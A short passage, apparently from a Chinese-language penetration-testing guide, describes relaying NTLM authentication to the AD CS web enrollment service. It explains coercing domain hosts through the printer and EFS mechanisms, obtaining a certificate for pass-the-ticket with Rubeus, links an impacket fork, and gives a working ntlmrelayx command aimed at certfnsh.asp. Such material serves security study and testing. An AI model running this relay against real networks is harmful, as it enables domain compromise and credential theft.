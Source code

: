![](./media/注册代理-9.jpg)

### 3.ntlm中继攻击ADCS

ADCS安装是可选择开放web服务供用户验证后注册证书。该web服务可采用ntlm relay攻击，使用打印机、efs强制域内主机到ntlmrelayx身份验证，继而中继到ADCS服务器申请证书。申请得到的base64编码格式的证书可配合Rubes做票据传递攻击

工具地址：[ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack)

开启监听并relay到adcs的wb服务

```
python3 ntlmrelayx.py -t http://192.168.2.123/certsrv/certfnsh.asp -smb2support --adcs --smb-port 445
```
